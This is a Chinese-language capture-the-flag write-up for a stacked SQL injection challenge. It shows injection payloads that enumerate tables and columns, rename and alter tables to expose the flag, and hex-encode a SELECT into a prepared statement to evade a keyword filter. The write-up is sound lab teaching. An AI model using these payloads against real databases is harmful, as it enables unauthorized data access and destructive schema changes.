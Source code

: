 ```yaml
---
{"dg-publish":true,"title":"BUU_强网杯随便注","dg-path":"安全/靶场/BUU_强网杯随便注.md","permalink":"/安全/靶场/BUU_强网杯随便注/","dgPassFrontmatter":true}
---
```



# 整体思路

这题的关键点在于可以使用堆叠注入，但是注意有屏蔽关键词
![Pasted image 20240803101900.png](/img/user/picture/Pasted%20image%2020240803101900.png)



# 注入流程


先看一下表名
```sql
0'; show tables;
```
![Pasted image 20240803102008.png](/img/user/picture/Pasted%20image%2020240803102008.png)

再看一下列名
```sql
0'; show columns from `1919810931114514`; #
```


> [!NOTE] 注意
> 表名为数字时，要用反引号包起来查询。

![Pasted image 20240803102241.png](/img/user/picture/Pasted%20image%2020240803102241.png)

可以看到我们要找的数据就在`1919810931114514`表中



## 思路一

在输入框输入id的时候会在words表中进行查询，所以第一个思路就是将`1919810931114514`表重命名为words,并且把words表给改掉


```sql
1'; rename table words to word1; rename table `1919810931114514` to words;alter table words add id int unsigned not Null auto_increment primary key; alter table words change flag data varchar(100);#

```

之后再查询1 flag就直接出来了
![Pasted image 20240803102620.png](/img/user/picture/Pasted%20image%2020240803102620.png)



## 思路二

因为select被过滤了，所以先将select * from ` `1919810931114514` `进行16进制编码

再通过构造payload得

`;SeT@a=0x73656c656374202a2066726f6d20603139313938313039333131313435313460;prepare execsql from @a;execute execsql;#`

进而得到flag

- prepare…from…是预处理语句，会进行编码转换。
- execute用来执行由SQLPrepare创建的SQL语句。
- SELECT可以在一条语句里对多个变量同时赋值,而SET只能一次对一个变量赋值。


